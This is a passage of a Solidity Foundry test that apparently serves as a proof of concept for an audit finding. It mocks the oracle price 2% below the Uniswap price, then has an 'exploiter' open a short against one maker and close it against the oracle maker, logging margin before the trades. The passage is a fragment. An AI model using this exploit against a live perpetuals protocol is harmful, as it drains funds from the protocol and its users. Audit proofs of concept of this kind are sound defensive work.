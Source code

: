 ```solidity
                tickUpper: 887220,
                amount0Desired: baseIs0?baseToken.balanceOf(spotLp):collateralToken.balanceOf(spotLp),
                amount1Desired: baseIs0?collateralToken.balanceOf(spotLp):baseToken.balanceOf(spotLp),
                amount0Min: 0,
                amount1Min: 0,
                recipient: spotLp,
                deadline: block.timestamp
            })
        );
        vm.stopPrank();

        //set oracle price to 2% lower than uniswap
        int64 newPrice = 2000 * 98 / 100;
         _mockPythPrice(newPrice,0);
        console.log("price changed to %s",uint256(uint64(newPrice)));

        //exploiter margin before trades
         console.log("exploiter margin before trades: (margin state + unsettled marging + pending margin): ");
        int256 margDec = vault.getMargin(marketId,address(exploiter)).formatDecimals(INTERNAL_DECIMALS,collateralToken.decimals());
        console.logInt(margDec);
        //OUTPUT
        //exploiter margin before trades: (margin state + unsettled marging + pending margin):
        //30000000000

       //exploiter opens short position on SHBM
        vm.startPrank(exploiter);
        (int256 pbT, int256 pqT) = clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(maker),
                isBaseToQuote: true,
                isExactInput: true,
                amount: 110e18,
                oppositeAmountBound:0,
                deadline: block.timestamp,
                makerData: ""
            })
        );

        //exploiter closes position on oracle maker
         int256 exploiterPosSize = vault.getPositionSize(marketId,address(exploiter));
        (int256 pbB, int256 pqB) = clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(oracle_maker),
                isBaseToQuote: false,
                isExactInput: false,
                amount: exploiterPosSize.abs(),
                oppositeAmountBound:type(uint256).max,
                deadline: block.timestamp,
                makerData: ""
            })
        );
        vm.stopPrank();
        
        //exploiter margin after trades
         console.log("exploiter margin after trades: (margin state + unsettled marging + pending margin): ");
```